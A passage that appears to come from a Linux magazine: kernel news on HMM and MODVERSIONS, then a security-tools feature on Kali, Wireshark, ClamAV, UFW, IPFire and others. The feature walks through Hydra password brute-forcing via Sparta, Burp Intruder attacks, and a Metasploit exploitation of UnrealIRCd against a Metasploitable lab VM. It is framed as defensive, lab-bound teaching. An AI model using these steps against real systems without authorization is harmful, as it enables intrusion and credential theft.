硬件领域一个更有趣的趋势是，以更具同质性和透明度的方式在设备和系统应用处理器（CPU）之间共享内存。我们所有人都希望即将到来的提升形式是：支持一致性附加设备，这些设备参与系统范围内的缓存一致性协议，并能即时感知机器内任何其他代理或处理器对内存所做的任何更改。当我们达到这一最终演进阶段时，理论上将有可能构建软件抽象层，将运行在连接到机器的 GPU、FPGA 及其他加速器上的代码视为常规进程。

但我们距离乌托邦还有一段距离。直到不久前，在 GPU（作为一个例子）和系统 RAM 之间共享的数据仍需显式管理，随着大块内存区域（缓冲区）在两者间传递，往往会产生许多多余的数据拷贝。市场上一些最新的硬件大大改善了现状。例如，Nvidia 的 Pascal GP100 支持在 GPU 和系统共享的统一内存中触发页面错误的能力。

这意味着内核可以维护一种一致的机制来管理内存，无论是系统 RAM 还是设备图形内存，使用标准的页表抽象将软件使用的虚拟地址（宿主 Linux 系统上的应用程序以及在 GPU 上运行的代码）翻译到底层物理内存，该物理内存可能位于 RAM 中，也可能位于 GPU 上。由于像 GP100 这样的设备可以在故障时进行陷阱处理，它们允许内核在场景之间管理和协调所有权。这是 Jérôme Glisse 的 HVM（异构内存管理）补丁系列所利用的功能，旨在提供通用的内核机制。

该代码已经开发了几年（至少自 2014 年起），但在上游维护者能够看到涉及该技术的真实硬件用例之前，对其合并存在一些阻力。现在已有几种设备出货可以利用 HMM，包括 Nvidia Pascal 以及 Mellanox CX5 网络适配器卡。该补丁系列的最新版本（v14）似乎非常接近最终形式。问题在于，硬件的出货以及构建这些硬件方的背书，是否会使其最终得以合并。

## 第三方驱动程序支持的未来

Linux 在开发者圈子里因其几个基本原则而闻名。其中之一是“不要破坏用户空间”。另一个是“内核没有 ABI”。后者意味着，与其他专有（以及某些其他开源）操作系统不同，Linux 不保证内核内部组件之间（相对于对应用程序可见的那些）的稳定接口。这就是为什么在 Linux 上使用专有图形驱动的用户必须在每次发布新的上游内核时更新驱动的原因，例如。

内核并不保证驱动程序所需的接口从一个版本到下一个版本不会发生根本性变化。此类更改通常被视为是自包含的，受影响的代码通常会在 Linux 内核源代码中进行其他基础设施更改时得到更新。然而多年来，一种妥协情况一直存在，即 Linux 内核可以构建为支持 MODVERSIONS。这是一个允许内核自动确定驱动程序使用的接口，并在（广义上）判断这些接口是否与当前运行内核提供的接口保持兼容的特性。该特性常用于商业 Linux 发行版中，它们利用此特性为第三方驱动或未随操作系统一起发布的更新提供有限支持。

最近，上游 Linux 内核旨在允许在汇编代码中使用 EXPORT_SYMBOL（一个用于在内核内公开内核函数的宏）的更改，由于编译 Linux 内核时使用的汇编器（binutils）的问题，破坏了内核模块版本管理。4.9 版本合并了一个变通方法，但引发了一场辩论，Linus 在其中说，“我真的希望有一天能完全移除 MODVERSIONS。遗憾的是，今天似乎还不是那一天。” 如果那一天真的到来，看看是否有东西直接取代使用第三方（即使是开源）驱动程序所需的功能，将会很有趣。


## 锁定你的系统

下载并试用一些最流行的安全工具和发行版，在几分钟内探测并保障你的网络安全


### CIA 三要素

**保密性**

在讨论信息安全（InfoSec）时，显然私人数据必须严格保密。保密性包括保护数据安全显而易见措施，例如将数据离线存储、使用加密以及启用双因素认证（2FA）。

保密性也涉及人员管理。任何能够访问敏感数据的人员都应接受培训，以通过选择强密码、警惕社交工程攻击避免自身被入侵，并遵循明确的隐私准则，从而规避安全风险。

**完整性**

完整性涉及确保数据在存储和传输过程中的一致性和准确性。确保这一点较简单的方法包括设置文件权限和用户访问控制。更高级的方法可能涉及使用 MD5 等加密校验和，为新文档生成哈希值，以便与之前的副本进行比较。

完整性还包括运行并维护所有重要数据的备份。这对于防止由非恶意黑客因素导致的数据丢失至关重要，例如服务器因更新或硬件故障而崩溃。

**可用性**

可用性着重于确保数据无论受到何种外部影响（如黑客攻击或自然灾害），始终可访问。

这可能涉及使用 RAID 驱动器以确保有多份副本，或将备份存储在异地以便更轻松地恢复。保持所有软件更新以及确保快速进行硬件维修，可以更好保障可用性。对于存储在服务器上的数据，可用性还意味着为所有用户提供足够的带宽，以避免因瓶颈导致的减速。

加固。渗透测试。远程漏洞利用。最小权限。与信息安全（InfoSec）相关的术语和行话数量几乎与现有的各种工具一样多，每种工具都宣称能够分析你的网络是否存在潜在威胁，和/或保护其免受黑客攻击。

在本指南中，我们将探讨网络安全社区喜爱的一些工具，并详细说明它们所解决的具体威胁。

网络安全的中心准则之一是通过移除不必要的软件来减少你的“攻击面”。因此，尽可能应在如 Kali 等 Linux 渗透测试发行版中运行此处列出的任何工具。

在继续之前，请确保你也遵循了其他基本的信息安全最佳实践。你的网络设备是否有黑客可以利用的带有默认密码的预装账户？你安装的账户是否都需要管理员权限才能进行系统级更改？

最后，确保你知道服务器日志文件的位置。通常它们可以在 **/var/log** 中找到。在模拟网络攻击时，这些日志可能非常宝贵。


> “网络安全的中心准则之一是通过移除不必要的软件来减少你的‘攻击面’”

### 使用 KALI LINUX 对你的网络进行渗透测试

道德黑客的终极瑞士军刀

目前最流行的渗透测试发行版无疑就是 Kali Linux，其完整版本可在封面 DVD 上获取。

启动时，暂时选择 Kali 的 live 模式。默认用户名是 root，密码是 toor。

首次启动时，你还会被询问是否使用默认配置（四个桌面）还是仅使用一个。请相应选择以加载桌面。点击应用程序菜单，你会发现工具已为你妥善分类。例如，出色的网络工具 nmap 可以在“信息收集”中找到。不要惊慌，如果同一工具在单独的分类中列出两次。举个例子，nmap 既列在“信息收集”下，也列在“漏洞分析”下，因为它对两者都有用。

随着时间推移，你可能希望安装额外工具并按喜好定制 Kali 桌面。如果是这种情况，考虑将 Kali 安装到具有持久性（persistence）的 USB 闪存盘上。此选项可从启动屏幕获取。

如果你只能访问目标设备，考虑在虚拟机中运行 Kali，甚至安装到便宜的树莓派计算机上，以将其与你个人的数据隔离。访问 www.kali.org/downloads 获取虚拟磁盘和‘armhf’镜像。

安装完成后，按照开发者在 www.offensive-security.com/kali-linux/top-10-post-install-tips 上的说明，了解如何调整 Kali 桌面以及如何进行升级。

你将在 Kali 中探索的许多工具没有图形用户界面（GUI）。尽管如此，它们使用简单，并且默认情况下 Kali 会加载每个工具的 man 页面，向你展示所有可用命令。

> 虽然 Linux 系统不会受到 Windows 恶意软件的影响，但默认情况下，它们会乐于通过互联网或 USB 将恶意文件转发给更脆弱的机器

### 使用 WIRESHARK 监视实时流量和数据

权威的网络协议分析器

Wireshark 是最知名的网络分析工具之一。它能够分析实时流量以及捕获到磁盘的数据。Wireshark 可以从 Kali Linux 应用程序菜单中的“嗅探与欺骗”类别启动。

Wireshark 有许多用途。其中最主要的是，如果恶意软件进入你的网络，你能够分析进入的恶意文件，并找出（如果有）成功窃取了哪些数据。

起初，显示内容可能看起来非常杂乱，因为它会显示所有数据分组。点击顶部的过滤栏以缩小范围。开始可以输入 `http.request.full_uri` 来查看 HTTP 请求。

过滤显示可以串联；例如：`http.request.full_uri || ssl.handshake.certificate || dns`

如果你经常使用相同的搜索标准，请转到 Analyze > Filter Display Macros 菜单设置快捷键。完整的显示过滤器列表请访问 www.wireshark.org/docs/dfref。右键点击任何感兴趣的分组，并选择 Follow > TCP stream 以了解更多详情。



转到 File > Save As 选择要保存的分组及其格式。这些稍后可在 Wireshark 和其他工具（如后面介绍的 Kismet）中打开进行分析。

Wireshark 的完整用户指南可从以下链接以 PDF 格式获取：www.wireshark.org/download/docs/user-guide-3.4.pdf

### 使用 CLAMAV 防止恶意软件转发

使用这款强大的病毒扫描器检查单个文件或多个电子邮件

虽然 Linux 系统不会受到 Windows 恶意软件的影响，但默认情况下，它们会乐于通过互联网或 USB 将恶意文件转发给更脆弱的机器。

ClamAV 是一套优秀的 FOSS（免费和开源软件）病毒扫描工具包。其数据库每隔几小时更新一次，其检测率优于许多商业扫描器。

在 Kali 中，运行：`apt-get install clamav clamav-update clamdscan clamav-daemon`

……以安装必要的文件。你可以使用 `freshclam` 命令手动更新病毒数据库，但最好将其调度为 cron 任务。运行以下命令：



```
clamdscan -r <filename>
```

……以扫描单个文件或文件夹。ClamAV 守护进程安装后会自动启动，但它不是实时扫描器，因为它不会在文件写入时进行检查。不过，可以使用应用程序 ClamFS 自动化检查 Downloads 等文件夹。访问 clamfs.sourceforge.net 获取更多信息。

ClamAV 最常用于运行 Postfix 的邮件服务器，通过安装附加程序 ClamSMTP 来防止发送恶意软件和钓鱼邮件。安装后，需要更新 ClamAV 配置文件以反映 Postfix 使用的端口。这是为了确保扫描所有邮件。完整说明请访问开发者页面 theclavier.tetof.software/clamsmtp。


## 锁定你的系统
### 坚守在 UFW 背后
使用几条简单的命令保护你的端口

Ufw（无复杂防火墙）及其图形伴侣 Gufw 充当了大多数 Linux 发行版中标准的 iptables 防火墙的前端。

运行以下命令：

```
apt-get install ufw gufw
```

……在 Kali 中进一步探索。

Gufw 界面直观，自带一个启用防火墙的开关，以及允许或阻止特定端口的向导。甚至有预设配置允许特定应用程序和游戏（如《使命召唤》）。命令行版本几乎同样易用。运行：

```
ufw enable
```

然后检查防火墙状态，运行：

```
ufw status verbose
```

默认情况下，所有传出连接都是启用的，而所有传入连接都是禁用的。你可以通过指定端口和协议用一条命令启用连接。例如，如果正在运行 Minecraft 服务器，请允许传入 TCP 流量：

```
ufw allow 25565/tcp
```

SSH 等服务遵循以下语法：

```
ufw allow ssh
```

要禁用端口或服务，请将‘allow’替换为‘deny’。



Ufw 在 Ubuntu 及某些其他基于 Debian 的发行版中预装，但并不理想于基于 RPM 的系统。

若要寻求真正的跨平台解决方案，请考虑运行专用防火墙发行版，如 IPFire（后文将详细介绍）。

> Sparta 将要求你指定要扫描的 IP 地址范围。扫描完成后，Sparta 将识别出任何机器，以及任何开放端口或正在运行的服务


## 使用 BURP SUITE 分析应用
锁定你的 Web 应用程序

Burp Suite 是一个用于分析和攻击 Web 应用的集成平台。免费版本在 Kali 中预装，很可能满足大多数管理员的需求。

Burp Suite 包含一个拦截代理，它在启动时运行在 8080 端口。这允许你通过它扫描任何浏览器流量以进行分析。在你的 Web 应用中发起一个请求，以便代理对其进行拦截。如果你希望查看站点地图，请前往“Target”选项卡。

在“Target”选项卡内，找到你的 Web 应用，然后右键单击其中一个节点。选择“spider from here”（从此处进行蜘蛛扫描）选项，以确保没有指向敏感资源（如数据库）的链接，以免被黑客利用。

回到“Proxy”选项卡，点击“Action”按钮，然后选择“Send to Intruder”以将拦截的流量传递给 Burp Suite Intruder。这允许你对其中一个 Web 应用程序进行自动化攻击，例如尝试暴力破解用户密码。

点击“Intruder”选项卡，然后点击“Positions”来配置请求模板以及攻击类型。“Payloads”选项卡允许你选择特定的载荷集。准备就绪后，点击“Start Attack”按钮。

要全面了解 Burp Suite 的所有功能，请访问位于 portswigger.net/burp/help 的开发者支持站点。

## 使用 SPARTA 测试你的网络
nmap 和 Nikto 的便捷 Python GUI – 这就是 Sparta

Sparta 在 Kali 中预装，作为强大的 nmap 和 Nikto 工具（以及其他工具）的前端，使网络枚举变得更加容易。

启动时，Sparta 将要求你指定要扫描的 IP 地址范围。扫描完成后，Sparta 将识别出任何机器，以及任何开放端口或正在运行的服务。在可能的情况下，它还会在信息选项卡中列出操作系统。

如果端口 80 或 443 是开放的，Sparta 还会运行 Nikto 进行扫描。Nikto 基本上检查服务器软件是否保持最新，并确保没有潜在有害的文件或程序。使用“Nikto”选项卡查看结果，使用“Notes”选项卡记录你的进度。

Sparta 还集成了‘hydra’工具，可用于暴力破解远程身份验证服务，如 SSH。除了指定远程主机的 IP、端口和服务外，你还需要链接到一个密码列表。Kali 包含了包含数千个最常用密码的‘rockyou’列表。如果你想安全地测试 Sparta，请考虑使用 Metasploitable 虚拟机（后文将详细介绍），它故意包含漏洞。




### 01 添加主机
在 Kali 中通过进入 应用程序 > 漏洞分析 > Sparta 来启动 Sparta。窗口启动后，选择“点击此处添加主机”来确定范围。将出现一个弹出窗口，要求你指定 IP 范围。你可以添加单个 IP 地址（如果你已经知道要扫描的主机），或者指定整个子网，例如 192.168.1.0/24。点击“Add to Scope”开始扫描。如果你在检查多个主机，请在过程中右键单击每个主机并选择“Mark as Checked”以将其从后续扫描中排除。


### 02 收集主机信息
主机列表位于左侧窗格。点击每个主机以在“Services”选项卡中查看开放端口。布局非常清晰。编号端口列在“Port”下，相关服务类型（如 SSH 或 FTP）列在“Name”下。使用“Information”选项卡查看开放端口的总数。Sparta 还使用操作系统指纹识别来确定主机的操作系统，但这并不总是准确的。此时请使用“Notes”选项卡记录你迄今为止做出的任何观察结果。


### 03 检查 Nikto 扫描
此步骤是可选的，但建议执行。如果 Nikto 发现端口 80 或 443 开放，它将自动扫描这些端口。点击“Nikto”选项卡查看扫描结果。结果可能相当复杂，因此建议按部分进行拆解。例如，截图中“SSL info”部分显示，在运行 Broadcom 固件的设备中使用的默认 HTTPS 证书已安装。由于该证书已安装在 48 万台设备上，因此需要更新。其他警报，如“未找到 CGI 目录”，通常更直观。某些警报可能带有 OSVDB- 前缀，后跟一个数字。这些是开源漏洞数据库（Open Source Vulnerability Database）的标识符。请在 osvdb.org 上搜索有关单个漏洞的更多信息。


### 04 选择要暴力破解的服务
如果你希望测试远程主机上密码的强度，请点击“Services”选项卡，然后右键单击你想攻击的服务名称，例如 SSH。点击“Send to Brute”以指定你想要破解的 IP、端口和服务。接下来，点击“Brute”选项卡并检查这些信息是否正确。


### 05 准备你的暴力破解攻击
一旦你点击了“Brute”选项卡，请检查默认选项。这些选项已被勾选，因此 hydra 将查找明显的漏洞，例如空密码或与用户名相同的密码。在此下方，你可以手动指定用户名和/或密码，或从列表中选择一个。点击“Browse”按钮查看 /usr/share/wordlists 文件夹。解压 rockyou.txt.gz 以尝试一些最常见的密码。或者，使用位于 /usr/share/john/password.lst 的 John the Ripper 密码列表，或在线搜索此列表。


### 06 启动暴力破解攻击
点击“Run”开始对你选定的主机进行密码暴力破解。请仔细查看下方窗格中的警告信息；你没有指定用户名或密码，这将显示暴力破解错误。

右上角的“Threads”选项限制了 hydra 试图执行的并行任务数量。如果你通过 SSH 连接，Sparta 会警告你服务器通常最多支持四个连接。随时点击“Stop”以重新配置，然后再启动攻击。

## 使用 METASPLOIT 框架
测试你的服务器是否易受数千种利用的影响

Metasploit Framework（通常简称为'msf'）的免费版本与 Kali Linux 一起捆绑提供。Msf 是一个开源框架，用于识别漏洞以及开发和运行利用代码。



Kali 还附带了优秀的 Armitage 程序，它作为 msf 的图形用户界面。商业版本也有 Web GUI，但在你初步探索该框架时，命令行工具会让你感到压力较小。

msf 的开发者 Rapid7 还创建了 Metasploitable 2，一个故意包含多个可被 msf 利用的漏洞的虚拟机，你可以将其用于本教程的目的。

Kali 内置了一个命令行工具 nmap，一旦检测到易受攻击的端口/服务，即可在 msf 内部访问它。如需更美观、分类清晰的视图，请访问 Offensive Security 的在线利用数据库：www.exploit-db.com。

最后一步是运行利用代码，以发现你的服务器是否易受此特定攻击的影响。Msf 会以某种方式告知你结果，并将其保存到其数据库中。

利用代码加载后，你可以使用 show options 命令对其进行进一步配置。

### 01 启动 Metasploit 框架
在 Kali 中通过点击 应用程序 > 利用工具 > Metasploit 来启动 msf。与其他安全工具一样，你可能会在多个类别中找到 msf，因为它可以以多种方式使用。如果你正在 VirtualBox 中使用 Metasploitable 2 虚拟机（强烈建议这样做），请确保创建一个专用网络（host-only network），将 Kali 和 Metasploitable 机器都连接到此网络。这将防止任何一台机器连接到真实网络或互联网。



> “运行利用代码以查看你的服务器是否易受此特定攻击的影响。Msf 会以某种方式告知你结果”


### 02 识别远程主机
此步骤仅涉及通过使用 nmap 识别你想要利用的远程主机。如果你愿意，可以使用 nmap 的图形界面来完成。或者，你可以按照以下格式从 msf 命令行使用 nmap：

例如：

```
nmap -v 192.168.56.102
```

如果你希望扫描整个子网，请使用 ** 通配符。例如：

```
nmap -v 192.168.0.*
```

```
nmap -v address
```


# 03
## 选择漏洞利用工具

`nmap` 实用程序或 Sparta 会列出远程主机上所有开放的端口。下一步是确定这些端口上运行的任何服务是否容易受到漏洞利用程序的攻击。在 msf 内部完成此操作最简单的方法是 `searchsploit` 命令。不过，运行 `searchsploit irc` 将显示所有 IRC 程序各个版本的潜在漏洞利用工具。

你可以通过扫描特定端口来确定软件版本，从而缩小范围。例如，如果你想查看主机 192.168.56.102 的 6667 端口上运行的 IRC 软件是否存在漏洞，请运行以下命令：

```
nmap -A -p 6667 192.168.56.102
```

在 Metasploitable 2 中，这将显示更有用的信息。该机器正在运行 Unreal IRC 守护程序的 v3.2.8.1 版本。运行 `searchsploit unreal irc` 显示此版本的 Unreal 在 Linux 上有两个可能的漏洞利用工具。路径在右侧提供。

# 04
## 移动漏洞利用工具

确定了要使用的漏洞利用工具后，必须将其移动到 Metasploit 的模块文件夹（`~/.msf4/modules`）中。最简单的方法是打开一个新的终端，首先使用 `mkdir` 命令创建一个名为 `exploits` 的目录。不妨在 `exploits` 内部创建子目录以帮助整理它们。例如：

```
cd ~/.msf4/modules
mkdir -p exploits/linux/remote
```

接下来，使用 `mv` 命令将漏洞利用工具放置在 msf 可见的位置。例如：

```
mv /usr/share/exploits/db/platforms/linux/remote/16922.rb ~/.msf4/modules/exploits/linux/remote/16922.rb
```

然后重启 msf 或运行 `reload_all` 命令进行更新。

# 05
## 加载漏洞利用工具

msf 重启或重新加载后，使用以下语法加载你的漏洞利用工具：

```
use exploit/path/to/exploit
```

例如，对于前面列出的 IRC 漏洞利用工具，请输入：

```
use exploit/linux/remote/16922
```

注意，无需包含文件扩展名。漏洞利用工具是用各种编程语言编写的，但 msf 可以自动识别它们。

# 06
## 配置参数并运行

漏洞利用工具加载后，你可以输入 `show payloads` 和 `show options` 来进一步配置该工具。输入后者时，系统会要求你 `set RHOST`。在此指定远程主机的 IP 地址。例如：

```
set RHOST 192.168.56.102
```

如果你希望选择特定的 payload，请使用相同的语法：

```
set PAYLOAD <payload>
```

最后，使用以下命令运行你的漏洞利用工具：

```
exploit
```

## 功能：锁定你的系统

## 使用 KISMET 评估网络设备

一款用于被动检测非法无线接入点的实用工具

不安全的无线接入点以及 ad-hoc 网络可能会导致合法的 Wi-Fi 区域受到干扰。它们也可能成为访问未正确锁定设备上的密码和其他敏感数据的一种便捷方式。

Kismet 预装在 Kali 中，是一个无线  网络检测器，其设计理念与 Windows 上的 Netstumbler 类似。一个重要区别在于，它进行被动扫描，因此可以发现隐藏的 Wi-Fi 网络。虽然它通常用于“漫游攻击”（war driving），但它也是安全管理员确保组织中没有未经授权的设备被设置为接入点的极其有用的工具。

理想情况下，Kismet 需要一块专用的 Wi-Fi 卡，它会将其置于监控模式以检测附近的 Wi-Fi 接入点。这将允许你的设备在 Kismet 工作时保持与互联网的连接。

Kismet 支持 GPS 设备。默认情况下，程序可以配置为显示你设备当前的位置，但通过扩展插件，它还可以在地图上绘制其他 Wi-Fi 网络的可能位置，使追踪其确切位置变得更加容易。



- 01 安装并启动 Kismet
  - 如果你使用的是 Kali，Kismet 已预装，可以使用命令 `kismet -l` 从终端启动。否则，请从你的本地软件仓库下载它。Kismet 需要 root 权限来执行某些功能。这带有因 bug 或漏洞利用工具导致系统损坏的风险。在默认以 root 身份工作的 Kali 中，由于其设计时就考虑到了安全性，这应该不是问题。对于其他发行版，请考虑以设置 setuid 的方式安装 Kismet，这仅授予需要它的进程 root 权限。



KISMET 菜单

Kismet 菜单允许你查看 Kismet 控制台或为扫描添加新接口。使用“排序”菜单来更改网络的显示方式

- 02 配置启动选项
  - 在首次运行时，Kismet 会要求你选择文本颜色。点击“下一步”以自动启动 Kismet 服务器。将出现“启动选项”窗口，你可以在其中配置任何启动参数，例如日志记录。默认情况下，日志保存在你的主文件夹中。准备好继续时点击“启动”。

- 03 添加源
  - 接下来，你会看到一条消息，说明 Kismet 启动时未定义任何源。点击“是”以选择现在添加源。此时将出现“添加源”窗口。使用 Kali 终端中的命令 `ip link show` 或 `ifconfig` 来显示网络接口的名称（如 'wlan0'）并在此输入。如果你愿意，也可以设置一个名称。完成后点击“添加”。Kismet 将启动并立即开始列出网络和客户端。

网络及客户端列表

“网络列表”显示范围内的所有无线  网络。隐藏网络列为 '<Hidden SSID>'。客户端的 MAC 地址列在下方。使用箭头键向上和向下滚动

通用信息

在此，Kismet 显示诸如新网络检测以及日志文件何时显示的信息。当前的无线接口也显示在右下角





- 04 设置 GPS
  - 此步骤是可选的，但强烈建议用于追踪非法 Wi-Fi 网络。你需要将外部 GPS 设备连接到你的设备。在 Kali 中，运行：

  ```
  sudo apt-get install gpsd gpsd-clients
  ```

  ...以安装必要的软件。接下来，连接 GPS 适配器并运行 `dmesg | tail -n 5` 以确定其挂载位置，例如 `/dev/ttyUSB0`。使用 `gpsd <device_location>` 启动 GPS 设备。例如：

  ```
  gpsd /dev/ttyUSB0
  ```

  最后，编辑 `/etc/kismet/kismet.conf`，通过删除行首的井号 `#` 来取消注释 `$tstype=serial` 和 `tspdevicename=/dev/ttyUSB0` 这两行。将 `$dev/rfcomm0` 修改为你 GPS 设备的实际位置。重启 Kismet 以查看你当前的 GPS 坐标。

# **使用 METASPLOITABLE 2 进行测试**

使用虚拟机安全地进行渗透测试练习

Metasploitable 不是一个应用程序，而是一个基于 Ubuntu Linux 的虚拟机镜像，其中包含多个有意设置的漏洞。它可以用于安全地测试 Sparta 和 MetaSploit Framework 等安全工具。

该镜像本身可以从 **bit.ly/2h8FXM**（或封底光盘）下载。你需要 VirtualBox（可从 **www.virtualbox.org** 获取）等虚拟机软件来运行它。

对 Metasploitable 进行渗透测试最简单且最安全的方法是在虚拟机中运行 Kali。VirtualBox 可以创建一个仅限宿主机的网络，使 Kali 和 Metasploitable 能够相互看到，而不会暴露在你的网络或互联网的其他部分。

首先转到 **文件 > 偏好设置 > 网络 > 仅限主机网络** 来创建一个新的网络。接下来，在每个虚拟机内部，点击 **设置 > 网络** 并在下拉的“连接到”菜单中选择 **仅限主机**。名称应自动填入你创建的仅限主机网络。在 **高级** 设置下，将 **混杂模式** 设置为 **允许所有**。虚拟机的默认用户名和密码是 **msfadmin**。关于如何在 VirtualBox 中设置 Metasploitable 2 的完整视频教程可在 **Rapid7** 网站上找到。请浏览器指向：**community.rapid7.com/t/2007**。

> “对 Metasploitable 进行渗透测试最简单且最安全的方法是在虚拟机中运行 Kali”

# **使用 SYSPASS 存储密码**

在多人环境中使用易于管理的数据库安全存储密码

Syspass 是一个用 **PHP** 编写的 Web 密码管理器。它的主要优点是非常轻量级，使用 **HTML5** 和 **AJAX** 界面。数据库由主密码保护，单个用户账户和口令使用 **AES-256-CBC** 加密。

SysPass 可以运行在任何使用 **Apache**、**PHP** 和 **MySQL** 的服务器上，甚至设计为可从便携式 U 盘运行以增加安全性。

安装后，用户使用自己的用户名和密码登录到界面，这不会与他人共享。你组织中之前使用个人密码数据库 **KeyPass** 的任何用户都可以轻松将他们的账户迁移到 SysPass。还可以将多个用户添加到组中；例如，某个网站的所有管理员都可以访问通过 **FTP** 连接的用户名和密码。


那些是“应用程序管理员”或“账户管理员”的用户可以查看、修改和删除任何账户。他们通过使用主密码来完成此操作，该密码在每次进行添加新用户等全局更改时都是必需的。

SysPass 色彩丰富且简单的 Web 界面演示可从 **demo.syspass.org** 获取（使用显示的默认密码）。安装说明可在 **wiki.syspass.org/en/start** 找到。


## 特性
锁定你的系统

### 使用 IPFire 保护网络

快速为你所有的网络设置一个高度可定制的防火墙

IPFire 是一个开源的防火墙 Linux 发行版。不过，这种说法过于简化了，因为它还提供了入侵检测和对 Open/VPN 的支持等许多其他功能。IPFire 通过基于 netfilter 构建的 SPI（有状态数据包检查）防火墙，对安全性采取严肃的态度。

设置过程允许你将网络配置为不同的安全区域。每个区域都用颜色进行编码。例如，绿色区域是一个安全区域，代表连接到本地有线网络的所有常规客户端。红色区域代表互联网。

除非在防火墙中特别配置，否则任何流量都无法从红色区域传递到任何其他区域。默认设置针对的是带有两个网卡的设备，仅包含红色和绿色区域。但是，在设置过程中，你还可以设置一个用于无线网络的蓝色区域，以及一个用于任何公共服务器的橙色区域，即所谓的“DMZ”。

设置完成后，你可以通过直观的网络界面配置额外的选项和附加组件。IPFire 专为缺乏大量网络经验的人设计，可以在几分钟内部署完毕。



> 除非在防火墙中特别配置，否则任何流量都无法从红色区域传递到任何其他区域


### 01 下载并安装 IPFire ISO

访问 www.ipfire.org/download 以下载 162MB 的 IPFire ISO（或者从封底光盘获取）。默认的硬件要求非常低。点击“其他下载选项”以获取闪存镜像以及为 ARM 架构编译的版本。IPFire 网站警告称，该软件在树莓派等设备上运行效果不佳，而且它也不利用硬件随机数生成器。建议为 IPFire 配备一台专用服务器，或者在虚拟机中运行它。


### 02 运行 IPFire 设置

初始设置过程非常简单。选择你的语言，并使用空格键表示你已接受 GNU 许可证的条款。然后你会看到一条通知，说明系统已安装。设备将重启，此时你会被要求选择时区。接下来，你需要选择 root 密码以访问 IPFire 命令行，以及一个管理员密码以便之后访问网络界面。



### 03 选择网络配置类型

选择主机名和局部域名设置后，你将进入网络配置菜单。如前所述，默认设置为“绿色 + 红色”。这代表连接以太网设备的配置。如果你希望设置无线网络（蓝色）或公共服务器（橙色-DMZ），请选择“网络配置”类型选项，然后使用方向键选择不同的设置。安装后你可以更改这些选项，但正如 IPFire 所警告的，需要重启网络，并且需要重新分配驱动程序（参见步骤 4）。



### 04 选择驱动程序分配

接下来，在网络配置菜单中，选择“驱动程序和网卡分配”。现在你会看到“扩展网络”菜单。首先选择绿色。菜单将要求你为该接口选择网卡。如果你不确定选择哪一个，点击“标识”，相应端口的指示灯将会闪烁十秒钟。



### 05 设置网络地址

从网络配置菜单中选择“地址设置”。然后你将需要选择相应的接口。绿色接口允许你在此处为私有网络分配任何有效的 IP 地址，例如 192.168.0.1。红色接口有更多的选项，具体取决于你的 ISP。如果你选择分配静态 IP，请将其分配到不同的子网。例如，如果绿色接口是 192.168.0.X，红色接口可以是 192.168.2.X。如果你不确定，请选择 DHCP。



### 06 配置 DNS 和网关

回到网络配置菜单，选择“DNS 和网关设置”。如果你在配置红色接口时选择了 DHCP，系统将默认使用你 ISP 的 DNS 服务器，你不需要进一步配置。如果你选择了静态 IP 或希望使用其他 DNS 服务器（如 OpenDNS），请在此处输入，暂时留空网关字段。完整的公共 DNS 服务器列表可从以下地址获取：[wiki.ipfire.org/en/dns/public-servers]。



### 07 配置 DHCP 服务器

点击网络配置菜单上的“完成”按钮，为“绿色”接口配置 DHCP 服务器。使用空格键启用，然后指定与绿色接口位于同一子网内的所需地址范围。例如，如果你的绿色接口 IP 地址是 192.168.0.1，你可以选择 192.168.0.10 到 192.168.0.39 的范围。请注意，“IPFire 主 DNS 地址”与绿色接口的 IP 地址相同。这是因为 IPFire 使用 DNS 代理。暂时保持此设置不变。



### 08 打开网络界面

